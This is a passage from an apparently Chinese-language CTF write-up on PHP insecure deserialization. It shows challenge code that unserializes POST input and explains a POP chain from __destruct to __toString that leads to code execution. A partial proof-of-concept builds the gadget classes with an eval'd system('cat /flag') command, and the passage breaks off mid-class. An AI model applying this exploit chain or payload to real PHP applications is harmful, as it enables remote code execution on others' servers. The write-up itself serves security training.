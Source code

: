```php

    public function __destruct()
    {
        echo $this->sea->see;
    }
}

if ($_POST['nature']) {
    $nature = unserialize($_POST['nature']);
} 
```

<font style="color:rgb(77, 77, 77);">思考怎么构建这个pop链 而这道题在类名上就已经有了非常明显的提示了：Nature->sea->shark->sink</font>

<font style="color:rgb(77, 77, 77);">然后我们根据代码理清思路是Nature: __destruct() ---> Sea: __get() ---> Shark: __invoke() ---> Sink: __toString() ---> RCE。但是这里要注意的一点就是，这道题中有private属性的成员，那么有些是不可在外部更改的，那么我们就需要在内部修改或者在内部写一个函数使我们能在外部修改。（例如这里的0Shark\0word代表shark里的私有属性word；0Sink\0cmd就代表sink里的私有属性cmd）</font>

<font style="color:rgb(77, 77, 77);">POC</font>

```php
<?php
// highlight_file(__FILE__);

class Sink
{
    private $cmd = 'system("cat /flag");';
    public function __toString()
    {
        eval($this->cmd);
    }
}

class Shark
{
    private $word = 'Hello, World!';
//存在 private 字段, 由于 php 版本低于 7.1+, 所以我们需要保留好他的访问性
    public function setWord($word) //关键, 控制到word的值
    {
        $this->word = $word;
    }

    public function __invoke()
    {
        echo 'Shark says:' . $this->word;
    }
}

class Sea
{
    public $animal;
    public function __get($name)
    {
        $sea_ani = $this->animal;
        echo 'In a deep deep sea, there is a ' . $sea_ani();
    }
}

class Nature
{
    public $sea;

    public function __destruct()
    {
```